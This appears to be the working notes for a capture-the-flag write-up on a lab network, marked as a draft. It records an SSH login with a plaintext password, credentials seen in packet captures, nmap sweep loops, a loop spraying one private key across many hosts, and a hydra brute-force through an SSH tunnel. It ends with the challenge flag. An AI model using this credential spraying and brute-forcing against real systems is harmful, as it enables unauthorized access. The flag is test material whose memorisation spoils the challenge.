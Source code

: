 # Heading level 1

TODO: writeup comes here

# ssh
```bash
sshpass -p DioNer ssh kay@10.214.1.11 -p 2200
```

# Pcap
ssh key fragments
smtp, imap, pop

ssh conn fragments 10.201.0.2:22 
SSH-USERAUTH(root:***)

HTTP Post username=user&password=pass

TO:<admin@cq2025.com>

# Nmap
```bash
for s in {200..254}; do echo "Scanning 10.$s.0.0/24"; ./nmap -T5 -p22 10.$s.0.0/24; done
```


# SSH
```bash
USER=root; while IFS= read -r host; do \
  ssh -i ./key -o BatchMode=yes -o PasswordAuthentication=no -o PreferredAuthentications=publickey \
      -o ConnectTimeout=1 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null \
      "$USER@$host" 'echo AUTH_OK' >/dev/null 2>&1 && echo "$host" >> key_success.txt && echo "$host: OK" || echo "$host: FAIL"; \
done < hosts.txt
```


router.net1 (10.200.0.254) has pw auth

Hydra


```bash
sshpass -p DioNer ssh kay@10.214.1.11 -p 2200 -L 22222:10.200.0.254:22
hydra -f -t 8 -s 22222 -L usernames.txt -P /opt/wordlists/seclists/Passwords/xato-net-10-million-passwords-100.txt ssh://localhost
```

# Interfaces

```bash
ip a
nmap -T4 10.201.0.2
ip route
ip route get 10.201.0.2
```

```bash
ip route add 10.201.0.0/24 dev eth1
nmap -T4 10.201.0.2
```

# Flag
`CQ25{r0uT3_f1X3d_53cr37_f0uNd}`